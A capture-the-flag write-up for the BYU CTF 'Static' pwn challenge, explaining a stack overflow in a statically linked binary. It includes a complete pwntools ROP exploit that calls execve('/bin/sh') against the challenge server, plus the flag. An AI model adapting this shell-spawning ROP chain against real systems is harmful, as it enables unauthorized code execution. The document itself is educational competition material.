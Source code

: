 https://ctftime.org/event/2252/

# Static (Pwn)

So I heard all about these binary exploitation attacks involving libraries and libc, and that's got me worried! I decided to statically compile all of my binaries to avoid those attack vectors. This means I don't need to worry about mitigations, right?

Right??

nc static.chal.cyberjousting.com 1350

## Binary Analysis

`vuln` @ `0x004017e8`:
- `read`'s up to `0x100` bytes to a buffer on the stack at `-0x12`

The binary is statically linked.

## Solution

We will use a `syscall` gadget to perform `execve("/bin/sh\x00", 0, 0)`.

### Preparing String Arguments

In order to make the call to `execve` we need to be able to point to the string `"/bin/sh\x00"`.

Through debugging its possible to determine that value of the register `rsi` closely relates to address of the start the buffer we control on the stack.

By starting our payload with `"/bin/sh\x00"` and then copying from and making adjustments to the value in `rsi` we are able to set `rdi = "/bin/sh\x00"`.

### Collecting Gadgets

Much of the challenge of this task comes from the limited availability of gadgets.

Gadgets were discovered using `ROPgadget` as follows:

```
$ ROPgadget --binary ./static
```

A particular challenge for me taking control over `rdi` which should point to the string `"/bin/sh\x00"` in memory when calling `execve`.

I ended up using a combination of the following:

```
# 0x464c94 : lea rdx, [rax + 8] ; cmp rcx, rsi ; jb 0x464c81 ; ret
# 0x4299de : mov rdi, rdx ; call rsi ;
```

I won't go over every gadget here instead see the final exploit for the final selection.

### Final Exploit

Note that great care is taken to ensure that both `rsi` and `rdx`, that is the values of `argv` and `envp`, are set to `0` prior to the `syscall` instruction's execution.

```
from pwn import *

p = remote("static.chal.cyberjousting.com", 1350)

SYSCALL = 0x401194
POP_RAX = 0x41069c
POP_RSI = 0x4062d8
POP_RBP = 0x401761
POP_R15 = 0x401fdf
POP_RBX = 0x40166f
POP_R12 = 0x4023e7
MOV_RAX_RSI = 0x425d07
ADD_RAX_RSI = 0x426534
MOV_RCX_RAX_MOV_RAX_RCX = 0x404606
MOV_RDI_RDX_CALL_RSI = 0x4299de
MOV_RSI_RBP_CALL_R15 = 0x45edc9
MOV_RDX_RBP_CALL_RBX = 0x44499e

# 0x464c94 : lea rdx, [rax + 8] ; cmp rcx, rsi ; jb 0x464c81 ; ret
LEA_RDX_RAX = 0x464c94

payload = b""
payload += b"/bin/sh\x00"
payload = payload.rjust(0x12, b"A")
payload += p64(POP_RAX)
payload += p64(1)
payload += p64(MOV_RCX_RAX_MOV_RAX_RCX)
payload += p64(MOV_RAX_RSI)
payload += p64(POP_RSI)
payload += p64(2)
payload += p64(ADD_RAX_RSI)
payload += p64(POP_RSI)
payload += p64(0)
payload += p64(LEA_RDX_RAX)
payload += p64(POP_RAX)
payload += p64(0x3b) # EXECVE
payload += p64(POP_RBP)
payload += p64(0)
payload += p64(POP_RBX)
payload += p64(SYSCALL)
payload += p64(POP_R15)
payload += p64(MOV_RDX_RBP_CALL_RBX)
payload += p64(POP_RSI)
payload += p64(MOV_RSI_RBP_CALL_R15)
payload += p64(MOV_RDI_RDX_CALL_RSI)

p.sendline(payload)

p.interactive()
```

## Flag
`byuctf{glaD_you_c0uld_improvise_ROP_with_no_provided_gadgets!}`
